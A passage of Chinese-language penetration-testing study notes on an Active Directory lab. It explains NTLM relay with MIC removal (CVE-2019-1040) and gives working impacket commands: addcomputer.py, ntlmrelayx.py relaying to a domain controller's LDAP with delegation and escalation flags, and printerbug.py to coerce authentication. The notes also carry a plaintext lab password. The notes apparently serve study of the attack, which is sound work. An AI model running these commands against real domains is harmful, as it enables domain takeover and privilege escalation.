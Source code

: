     > https://developer.aliyun.com/article/675647
    > https://www.freebuf.com/articles/network/383408.html
    > https://www.redhat.com/zh/topics/security/what-is-ldap-authentication#ldap-%E4%B8%8Eactive-directory
    > https://cloud.tencent.com/developer/article/2309741
    > https://daiker.gitbook.io/windows-protocol/ntlm-pian/7#id-5.-cve-2019-1040

4. 目前个人理解（TODO：理清域内各个协议的关系）：由于通过 Print Spooler 漏洞和 PetitPotam 漏洞触发的 NTLM 认证**都是基于 SMB 协议**的，而 SMBv2 默认引入数字签名。但是 LDAP 协议不是硬要求数字签名（LDAP 签名要求级别分为 0、1、2，默认为 1，其中 2 表示强制要求，1 表示服务端尊重客户端选择）。因此需要将 SMB 转为 LDAP。但 NTLM 认证中属性 `Negotiate Sign` 设置为 1，这使得 LDAPS 服务端会直接终止会话（因为 LDAPS 走 SSL），而 LDAP 也会因为其他的两个字段 `Negotiate Key Exchange` 和 `Negotiate Always Sign` 而要求签名。

5. 想要取消签名的话，中间人就要考虑修改 `Negotiate Sign`、`Negotiate Key Exchange` 和 `Negotiate Always Sign`，但是 NTLM 设置了 MIC 签名来保证字段不被修改，因此需要移除掉 MIC 的标记（即修改 `msAvFlags` 的值）。

6. 首先还是需要创建一个机器账号：
    ```bash
    # kali 上执行
    python3 addcomputer.py -method SAMR -dc-ip 192.168.31.4 -computer-name hacker -computer-pass cjy320723 "endlessshw2.com/Member2:CJYcjy320723"
    ```

    ![image-20240717131008867](Kerberos/image-20240717131008867.png)

7. 使用 ntlmrelayx.py 设置委派和中继的目标，然后使用 Print Spooler 漏洞
    ```bash
    # -t 指定中继过去的目标，一般为域控
    # --delegate-access 表示设置委派账号
    # --escalate-user 指定要提权的账号
    # -smb2support 开启 SMB2 服务，为 Print Spooler 漏洞创造条件
    python3 ntlmrelayx.py -t ldap://192.168.31.4 -smb2support --remove-mic --delegate-access --escalate-user hacker\$ -debug
    # 使用域用户对 kali 进行认证，高版本好像 printerbug.py 被删除了，用 https://github.com/dirkjanm/krbrelayx/tree/master 的脚本进行代替。
    # 第一个参数表示攻击目标，也就是发起 NTLM 请求的目标。
    # 这里 192.168.31.3 是域内的一台主机，也是攻击对象
    python3 printerbug.py endlessshw2.com/Member2:CJYcjy320723@192.168.31.3 192.168.31.121
    ```
